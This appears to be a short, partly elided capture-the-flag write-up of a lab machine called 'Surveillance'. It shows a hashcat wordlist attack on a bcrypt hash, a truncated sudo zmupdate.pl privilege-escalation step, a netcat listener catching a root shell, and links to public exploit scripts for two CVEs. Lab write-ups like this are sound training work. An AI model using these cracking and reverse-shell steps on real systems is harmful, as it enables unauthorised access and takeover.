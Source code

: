 # Surveillance - Medium Machine

## User Flag
.....
Cracking it with `hashcat`:
```bash
../machines/medium➤ hashcat -m 3200 -a 0  hash.txt /usr/share/dict/rockyou.txt --force
hashcat (v6.2.6) starting
...
******************:*****************
```

And... we are in!

## Root Flag
```bash
sudo /usr/bin/zmupdate.pl --version=1 ......

And voila:
```bash
../machines/medium➤ nc -lvnp 4444
Connection from 10.10.11.245:58446
id
uid=0(root) gid=0(root) groups=0(root)
```

## TODOs
- Review https://github.com/Faelian/CraftCMS_CVE-2023-41892/blob/main/craft-cms.py
- Review CVE-2023-26035: https://raw.githubusercontent.com/rvizx/CVE-2023-26035/main/exploit.py
